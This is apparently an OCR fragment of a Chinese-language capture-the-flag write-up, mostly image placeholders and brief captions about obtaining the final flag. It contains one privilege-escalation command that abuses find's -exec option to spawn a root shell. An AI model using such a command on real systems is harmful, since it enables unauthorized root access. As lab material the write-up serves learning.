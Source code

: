 ![](img/e25123788a03a287c83d112fdff2a29a.png)

人类发现

![](img/9768f0448bd316ffe0293ab220471fc5.png)

拥有最终的旗帜

```
$find /root/thefinalflag.txt -exec /bin/sh \;
```

![](img/d2b91ddef58ac1014165651201990b8a.png)
